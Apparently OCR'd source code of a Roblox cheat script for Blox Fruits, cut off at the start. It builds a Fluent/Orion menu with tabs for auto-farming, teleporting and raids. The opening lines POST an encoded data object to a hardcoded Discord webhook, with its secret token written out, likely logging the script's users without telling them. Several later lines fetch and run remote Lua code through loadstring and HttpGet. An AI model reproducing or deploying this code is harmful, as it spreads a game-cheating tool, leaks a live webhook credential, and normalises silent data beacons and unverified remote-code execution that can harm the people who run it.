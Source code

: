                                     }              
                                }
                            }
                    
                    
                    local Headers = {["Content-Type"]="application/json"}
                    local Encoded = HttpService:JSONEncode(Data)
                    
                    Request = http_request or request or HttpPost or syn.request
                    local Final = {Url = "https://discord.com/api/webhooks/1203612065302970389/GHxtX7Y_Pdy2lQbZPo91hEfvXRagarlM5OYjAFy7NiaVFKLbbZuRpDl-SX3w3y6Cv24W", Body = Encoded, Method = "POST", Headers = Headers}
                    Request(Final)

local Fluent = loadstring(game:HttpGet("https://github.com/dawid-scripts/Fluent/releases/latest/download/main.lua"))()
local SaveManager = loadstring(game:HttpGet("https://raw.githubusercontent.com/dawid-scripts/Fluent/master/Addons/SaveManager.lua"))()
local InterfaceManager = loadstring(game:HttpGet("https://raw.githubusercontent.com/dawid-scripts/Fluent/master/Addons/InterfaceManager.lua"))()
local OrionLib = loadstring(game:HttpGet(("https://raw.githubusercontent.com/shlexware/Orion/main/source")))()

local Window = Fluent:CreateWindow({
    Title = " dreamsland  | Blox Fruits",
    SubTitle = "Version 2",
    TabWidth = 160,
    Size = UDim2.fromOffset(530, 350),
    Acrylic = true,
    Theme = "Darker",
    MinimizeKey = Enum.KeyCode.End
})
local Tabs = {
    Main = Window:AddTab({ Title = "Main", Icon = "rbxassetid://108692472333669" }),
    Setting = Window:AddTab({ Title = "Setting", Icon = "rbxassetid://132773681612327" }),
    Stats = Window:AddTab({ Title = "Stats", Icon = "rbxassetid://76149415561197" }),
    Player = Window:AddTab({ Title = "Player", Icon = "rbxassetid://98420481130373" }),
    Teleport = Window:AddTab({ Title = "Teleport", Icon = "rbxassetid://124328510745834" }),
    Fruit = Window:AddTab({ Title = "Fruit", Icon = "rbxassetid://119662697482603" }),
    Raid = Window:AddTab({ Title = "Raid", Icon = "rbxassetid://83261211602689" }),
    Race = Window:AddTab({ Title = "Race V4", Icon = "rbxassetid://70413899338820" }),
    Shop = Window:AddTab({ Title = "Shop", Icon = "rbxassetid://108424439244531" }),
	Misc = Window:AddTab({ Title = "Misc", Icon = "rbxassetid://110153402130854" }),
}
local Options = Fluent.Options
do
OrionLib:MakeNotification(
        {
            Name = "Notification",
            Content = "Please Wait For Loading Code",
            Image = "rbxassetid://73846490130411",
            Time = 7
        }
    )
_G.lakala = true
